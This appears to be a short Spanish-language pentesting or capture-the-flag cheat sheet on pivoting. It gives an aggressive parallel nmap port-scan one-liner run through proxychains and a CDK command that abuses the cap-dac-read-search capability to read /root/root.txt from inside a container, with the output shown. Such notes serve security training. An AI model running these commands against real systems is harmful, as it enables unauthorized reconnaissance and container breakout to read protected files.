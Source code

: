 # pivoting

# Pivoting

## Escaneo ultragresivo con nmap

```
seq 1 65535 | xargs -P 200 -I {} proxychains nmap -p{} -sT -Pn -v -n 10.197.243.77 -vvv 2>/dev/null | grep "tcp open"
```

## Uso de de CDK

### Exfiltración de archivos

```
root@c150397ccd63:~# ./cdk run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
33f94f70a5d8d427f1fcd10b555422e2
```